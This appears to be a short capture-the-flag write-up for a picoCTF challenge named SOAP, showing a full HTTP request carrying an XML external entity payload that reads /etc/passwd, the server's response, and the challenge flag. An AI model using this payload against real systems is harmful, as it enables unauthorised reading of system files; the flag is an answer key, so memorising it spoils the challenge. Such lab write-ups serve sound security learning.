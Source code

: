 ###SOAP
### Description 

The web project was rushed and no security assessment was done. Can you read the /etc/passwd file?

Additional details will be available after launching your challenge instance.
### Hint

- XML external entity Injection

## Solución  1
```
POST /data HTTP/1.1
Host: saturn.picoctf.net:54479
Content-Length: 137
Accept-Language: es-419,es;q=0.9
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Content-Type: application/xml
Accept: */*
Origin: http://saturn.picoctf.net:54479
Referer: http://saturn.picoctf.net:54479/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>


<data><ID>&xxe;</ID></data>


-----responde
(admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
flask:x:999:999::/app:/bin/sh
picoctf:x:1001:picoCTF{XML_3xtern@l_3nt1t1ty_540f4f1e}




```